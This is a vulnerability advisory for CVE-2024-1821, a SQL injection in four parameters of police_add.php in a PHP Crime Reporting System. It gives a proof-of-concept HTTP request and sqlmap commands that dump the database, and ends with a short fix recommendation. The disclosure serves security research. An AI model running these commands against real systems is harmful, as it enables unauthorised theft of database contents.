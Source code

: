# Crime Reporting System - SQL Injection (Police Add)

### CVE Assigned:
**[CVE-2024-1821](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-1821)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-1821) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-1821)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Crime Reporting System](https://code-projects.org/crime-reporting-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Crime-Reporting-System/police_add.php

> Four parameters `police_name` , `police_id` , `police_spec` and `password` within police_add.php are vulnerable to SQL Injection.


![police_name](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.3crs-policeadd-policename-sqli.png)

![police_id](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.4crs-policeadd-policeid-sqli.png)

![police_spec](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.5crs-policeadd-policespec-sqli.png)

![password](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/1.6crs-policeadd-password-sqli.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `police_add.txt`:

```
POST /Crime-Reporting-System/police_add.php HTTP/1.1
Host: 172.16.8.56
Content-Length: 67
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.8.56
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.16.8.56/Crime-Reporting-System/police_add.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=83m3g3m53f33hm6so30ku7lng6
Connection: close

police_name=123&police_id=123&police_spec=123&password=123&s=Submit
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r police_add.txt --level 5 --risk 3 --batch --dbms MYSQL --dump -p police_name
```
```
sqlmap -r police_add.txt --level 5 --risk 3 --batch --dbms MYSQL --dump -p police_id
```
```
sqlmap -r police_add.txt --level 5 --risk 3 --batch --dbms MYSQL --dump -p police_spec
```
```
sqlmap -r police_add.txt --level 5 --risk 3 --batch --dbms MYSQL --dump -p password
```


## Recommendations

When using this Crime Reporting System, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
